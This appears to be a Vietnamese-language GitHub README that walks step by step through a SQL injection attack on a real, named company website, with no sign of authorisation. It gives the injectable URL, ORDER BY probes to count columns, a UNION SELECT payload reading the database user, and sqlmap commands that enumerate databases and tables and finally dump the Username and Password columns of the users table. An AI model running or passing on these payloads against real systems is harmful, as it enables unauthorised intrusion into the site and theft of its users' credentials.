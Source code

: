 # TỔNG QUAN # 

Kiểm tra trên web "CMKOO" `http://www.cmkoo.com.hk/en/news/news.php?id=28`

![Uploading image.png…]()

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, user](#kiểm-tra-database-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20`

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

=> Số cột lớn hơn 1 và bé hơn 20 

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16`

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)

=> Số cột là 16

## Kiểm tra database, user 

**1. User**

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

**2. Database**

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

Trang sử dụng MySQL theo thông tin ở `error info`

## Sử dụng `sqlmap`

**1. Lấy thông tin database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 --dbs`

![image](https://github.com/user-attachments/assets/a8c0f32a-3c0d-4bfd-9aa0-15cd070e5962)

**2. Lấy các bảng trong database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk --tables`

![image](https://github.com/user-attachments/assets/49aa44d3-efee-4abb-8872-04a7e1720bb4)

**3. Lấy các cột trong bảng**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users --columns`

![image](https://github.com/user-attachments/assets/c8328f5e-fbad-48d3-a7d8-39fef550ca8f)

**4. Lấy thông tin trong cột**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users -C Username,Password --dump`

